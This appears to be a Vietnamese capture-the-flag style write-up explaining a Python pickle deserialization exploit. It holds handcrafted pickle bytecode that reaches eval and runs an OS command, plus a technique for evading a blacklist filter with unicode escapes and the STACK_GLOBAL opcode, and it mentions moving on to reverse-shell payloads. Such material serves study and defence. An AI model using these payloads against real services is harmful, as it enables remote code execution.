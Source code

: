 ```
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"                       # memo[5] = mybuiltinsdict (bound)
    # mybuiltins
    b"(" b"V__builtins__\n" b"t" b"R"
    b"p6\n"                       # memo[6] = __builtins__ (dict/module)
    # myevaldict
    b"g1\n" b"(" b"g6\n" b"V__getitem__\n" b"t" b"R"
    b"p7\n"                       # memo[7] = myevaldict
    # myeval
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"                       # memo[8] = eval
    # mycommand
    b"(" b"V__import__(\"os\").system(\"whoami\")\n" b"t" b"R"
    b"."
)
```

Tiếp theo ta cần bypass unicode để bypass lượt 
kiểm tra đầu tiên của service. Những giá trị encode này được
 decode trong quá trình unpickle, còn lượt kiểm tra ban đầu chỉ đơn giản
 là kiểm tra chuỗi bytecodes xem có chứa các giá trị trong blacklist 
không mà thôi. Ví dụ, hàm kiểm tra đầu sẽ nhìn `V__globals_\u005f` là chuỗi `__globals_\u005f` trong khi pickle sẽ nhìn thấy `__globals__`.

```
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"
    b"p0\n"
```

Hiện tại, ta đang thực hiện thực thi method ban đầu bằng cách sử dụng opcode c **GLOBAL**. opcode này load module theo tên được truyền vào và không thể dùng trick bypass của opcode **V** được. Vậy ta phải tìm một cách khác để load module mà vẫn dùng opcode V để encode những chuỗi sẽ bị cấm.

```
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
```

Ở protocol 4 mặc định sử dụng opcode **STACK_GLOBAL** thay vì là **GLOBAL** và nó linh hoạt hơn rất nhiều khi có thể load từ stack. Như vậy ta chỉ 
việc push hai chuỗi module và attribute lên stack với opcode **V** rồi dùng **\x93** để lấy object là xong. Như ví dụ trên thì thay vì trực tiếp truyền các giá trị vào GLOBAL thì ta push `__main__` và `__class__.__base__.__subclasses__` lên stack, sau đó thực hiện đặt **MARK**, gói **TUPLE** và **REDUCE** như thường để thực hiện gọi method subclasses(). làm tương tự để bypass và ta có kết quả:

<img width="943" height="437" alt="image" src="https://github.com/user-attachments/assets/393ee46f-fcab-481b-84ca-976394ae4529" />  

Ta đã thành công gọi method eval của python nên có thể trực tiếp sử dụng các payload revshell của python:

